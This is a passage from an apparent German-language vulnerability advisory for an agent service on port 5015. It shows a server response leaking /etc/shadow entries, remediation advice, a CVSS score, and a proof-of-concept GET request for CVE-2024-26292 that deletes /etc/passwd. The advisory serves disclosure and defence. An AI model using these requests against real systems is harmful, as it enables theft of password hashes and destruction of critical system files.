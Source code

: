 Die Serverantwort sieht dann so aus (verkürzt):

```http
HTTP/1.1 200 OK
Server: gSOAP/2.8
Content-Type: application/octet-stream
Content-Length: 1164
Connection: close

root:$1$Or<redacted>njEucgDO1:19775:0:99999:7:::
...
avid-nexis:$5$t3v<redacted>bZgA:19774:0:99999:7:::
```
Wie wir sehen können, beantwortet der Server die Anfrage mit den Inhalten der angeforderten Datei.


### Behebung

Da uns bis heute kein offizieller Fix bekannt ist, empfehlen wir den Zugriff auf den Agenten-Port (Standard 5015) mithilfe eines Whitelist-Ansatzes einzuschränken.

### CVSS
DriveByte hat die folgende CVSS 4.0 Basismetrik errechnet:

8.7 (CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:N/VA:N/SC:N/SI:N/SA:N)


## Authenticated Arbitrary File Deletion (Linux/Windows): CVE-2024-26292

### Beschreibung

Die Anwendung ist anfällig für eine authentifizierte willkürliche Dateilöschung. Dies betrifft sowohl den Agenten, der auf Linux als auch den, der auf Windows installiert ist. Da die Anwendung standardmäßig mit den höchsten Rechten (root/NT_AUTHORITY SYSTEM) ausgeführt wird, sind Angreifer in der Lage, kritische Dateien wie `/etc/shadow` etc. zu löschen.

### Proof of Concept

Die Schwachstelle kann mit folgender `GET`-Anfrage ausgelöst werden (verkürzt):

```http
GET /agent?filename=%2Fetc%2Fpasswd&r=logs&request=del_usrv_log HTTP/1.1
Host: 192.168.40.141:5015
Cookie: avidagent=12345; userveragenttoken=1294797077750987387
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
...
Referer: https://192.168.40.141:5015/agent?context=5815&r=logs&request=dump_usrv_log
...
```

